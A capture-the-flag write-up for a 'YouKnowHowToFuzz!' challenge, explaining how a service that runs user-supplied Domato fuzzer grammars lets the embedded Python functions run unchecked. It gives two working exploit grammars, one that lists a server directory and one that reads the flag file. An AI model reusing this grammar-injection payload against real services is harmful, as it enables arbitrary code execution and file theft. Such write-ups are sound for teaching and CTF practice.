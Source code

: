 # YouKnowHowToFuzz!

> `Misc`, `Clone-and-Pwn`, `difficulty:Baby`
>
> I like eat domato, it''s excellent for dom fuzz, try to use your rule!

## Background

[Domato](https://github.com/googleprojectzero/domato) is an open-source fuzzer made to test DOM engines. Users can specify their own grammars to direct fuzzing.

## Setup

We are given some setup files, but the main part of the code is from `chal.py` (below). We can see that it takes in a grammar to parse and outputs 10 samples based on the grammar. The flag is located at `/srv/app/flag_$(md5sum /flag | awk '{print $1}')`.

```python
#!/usr/local/bin/python3
from grammar import Grammar

print("define your own rule >> ")
your_rule = ""
while True:
    line = input()
    if line == "<EOF>":
        break
    your_rule += line + "\n"

rwctf_grammar = Grammar()
err = rwctf_grammar.parse_from_string(your_rule)

if err > 0:
    print("Grammer Parse Error")
    exit(-1)

rwctf_result = rwctf_grammar._generate_code(10)
with open("/domato/rwctf/template.html", "r") as f:
    template = f.read()

rwctf_result = template.replace("<rwctf>", rwctf_result)

print("your result >> ")
print(rwctf_result)
```

## Vulnerability

Domato allows the execution of Python code to aid in generating programs. There are no restrictions on this code, so we can use it to locate/print the flag.

## Exploit

Looking through the Domato GitHub, there are some code samples that can be copied and modified slightly to execute python and return the result in the generated programs. The code I used to exploit the challenge was not minified, so some code is probably unnecessary.

Finding the flag file:

```
!begin function savesize
  context['size'] = ret_val
!end function

!begin function getf
  import os
  f = os.listdir("/srv/app")
  ret_val = " ".join(f)
!end function

<foo root> = <header><cr><lf><body>
<header> = Size: <int min=1 max=20 beforeoutput=savesize>
<body> = <call function=getf>

!varformat fuzzvar%05d
!lineguard try { <line> } catch(e) {}

!begin lines
<new element> = <call function=getf>;
<element>.doSomething();
!end lines

<EOF>
```

Reading the flag:

```
!begin function savesize
  context['size'] = ret_val
!end function

!begin function getf
  ret_val = open("flag_b261381493cd818b5fa9d25a1f249b30").read()
!end function

<foo root> = <header><cr><lf><body>
<header> = Size: <int min=1 max=20 beforeoutput=savesize>
<body> = <call function=getf>

!varformat fuzzvar%05d
!lineguard try { <line> } catch(e) {}

!begin lines
<new element> = <call function=getf>;
<element>.doSomething();
!end lines

<EOF>
```